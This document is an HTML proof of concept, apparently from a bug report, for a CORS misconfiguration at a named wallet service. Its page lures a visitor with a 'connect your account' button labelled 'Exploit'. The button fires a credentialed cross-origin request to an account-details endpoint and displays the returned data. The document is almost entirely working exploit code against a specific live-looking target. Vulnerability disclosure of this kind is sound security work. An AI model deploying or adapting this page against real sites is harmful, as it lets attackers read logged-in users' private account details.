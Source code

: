 <html>
     <body>
         <div id="demo">
            <h1>CORS PoC by Boogsta</h1>
            <h2>Please press below the button below to connect your accont to our service!</h2>
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://wallet.subsplash.com/ajax.php?do=account-details&appKey=M5BJMX", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
